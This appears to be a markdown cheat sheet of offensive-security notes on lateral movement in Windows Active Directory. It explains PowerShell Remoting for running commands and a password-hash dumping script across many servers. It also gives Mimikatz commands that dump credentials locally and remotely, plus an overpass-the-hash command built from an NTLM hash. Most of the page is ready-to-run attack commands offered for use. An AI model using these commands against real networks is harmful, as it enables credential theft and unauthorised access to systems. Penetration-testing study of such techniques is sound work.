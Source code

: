 # Lateral Movement
---
# Navigation
- **[[#PowerShell Remoting]]**
- **[[#Mimikatz]]**
---
# PowerShell Remoting
- Enabled by deafult on server 2012 onwards.
- On desktop windows machines you may need to enable it `Enable-PSRemoting` (Require admin privs).
- You get elevated shell on remote system if admin creds are used to authenticate (Default setting).

## One-to-One
### PSSession
- interactive
- Runs in a new process (wsmprovhost)
- Is stateful.
### Useful cmdlets
```powershell
New-PSSession
Enter-PSSession
```
## One-to-many
- Also know as Fan-Out-Remoting
- Non-interactive
- Executes commands parallely
- Runs Commands and scripts on
-- Multiple computers
-- In disconnected sessions (v3)
-- As background jobs and more
### Useful cmdlets
```powershell
Invoke-Command -ComputerName <ComputerName>
Invoke-Command -ComputerName (Get-Content <List-of-servers>)
Invoke-Command -ComputerName -Credential # To pass username/password
```
#### Usage Example
```powershell
#To execute a command remotely 
Invoke-Command -scriptblock {whoami;Get-Process} -ComputerName <value> -Credential <Creds>

#To execute script remotely
Invoke-Command -FilePath C:\Path\Get-PassHashes.ps1 -ComputerName (Get-Content <List-of-servers>)

#Whenever you get an error when executing commands/scripts on remote machine check for Language mode because if it's in constrained mode you won't be able to execute anything but built-in cmdlets
Invoke-Command -scriptblock {$ExecutionContext.SessionState.LanguageMode} -ComputerName <value> -Credential <Creds>
```
---
# Mimikatz
- This script is used to dump credentials,tickets and more.
- Mimikatz with PowerShell is done without dropping `mimikatz.exe` to disk.
- It is useful for passing and relaying hashes,tickets and for many active directory attacks.
- The script needs admin privs for dumping creds from local machine.
### Usage
```powershell
#Dump credentials on a local machine (Default)
Invoke-Mimikatz -DumpCreds

#Dump creds on multiple remote machines
Invoke-Mimikatz -DumpCreds -ComputerName @("system1","system2")

#Above commands uses PowerShell cmdlet "Invoke-Command" to do their jobs.
```
### "Over pass the hash" generate tokens from hashes.
```powershell
Invoke-Mimikatz -command '"sekurlsa::pth /user:administrator /domain <DOMAIN> /ntlm:<NTLM> /run:powershell.exe"'
```

